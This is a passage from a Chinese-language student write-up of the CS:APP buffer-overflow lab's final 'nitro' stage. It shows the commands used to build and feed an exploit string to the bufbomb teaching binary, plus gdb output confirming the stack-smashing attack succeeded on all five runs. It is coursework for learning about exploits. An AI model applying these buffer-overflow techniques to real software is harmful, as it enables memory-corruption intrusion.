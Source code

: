 ```

# 尝试用将 nitro.txt 复制5次并用 0x0a（换行）隔开，报错
~/myclass/csapp$ ./sendstring < nitro.txt > exploit_nitro.txt
Warning: string contains eol
Warning: string contains eol
Warning: string contains eol

# 尝试在运行 sendstring 时使用 '-n' 参数
~/myclass/csapp$ ./sendstring < nitro.txt -n > exploit_nitro.txt
./sendstring: option requires an argument -- 'n'      # 提示 '-n' 缺一个参数，那当然是 5 啦

~/myclass/csapp$ ./sendstring < nitro.txt -n 5 > exploit_nitro.txt         # 成功
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_nitro.txt -n
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
~/myclass/csapp$ gdb bufbomb
(gdb) r -t SA19225374+SA19225417+SA19225525 < exploit_nitro.txt -n
Starting program: /home/myclass/csapp/bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_nitro.txt -n
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:KABOOM!: getbufn returned 0x46110021
Keep going
Type string:KABOOM!: getbufn returned 0x46110021
Keep going
Type string:KABOOM!: getbufn returned 0x46110021
Keep going
Type string:KABOOM!: getbufn returned 0x46110021
Keep going
Type string:KABOOM!: getbufn returned 0x46110021
[Detaching after fork from child process 30966]
NICE JOB!
Sent validation information to grading server
[Inferior 1 (process 30962) exited normally]
```

![](https://github.com/Yudreamy/classlater/blob/master/csapp/datalab3/picture/nitro.PNG)

攻击成功！

## 总结
- [x] smoke
- [x] fizz
- [x] bang
- [x] dynamite
- [x] nitro
- [x] [推荐阅读](http://zyearn.github.io/blog/2014/02/07/csapp-buf-lab/) 和 [bufbomb 完整 c 源码](https://github.com/maxgillett/coursera/blob/master/Hardware%20Software%20Interface/course-materials/lab3/bufbomb.c)